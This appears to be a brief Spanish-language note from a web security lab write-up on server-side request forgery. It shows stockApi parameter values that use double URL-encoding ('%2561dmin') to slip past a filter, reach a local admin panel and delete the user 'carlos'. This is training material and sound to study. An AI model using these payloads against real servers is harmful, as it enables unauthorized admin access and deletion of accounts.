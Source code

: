 stockApi=http://127.1/%2561dmin

Le hacemos doble url encode a la a de admin y ==bypasseamos el filtro.==

stockApi=http://127.1/%2561dmin/delete?username=carlos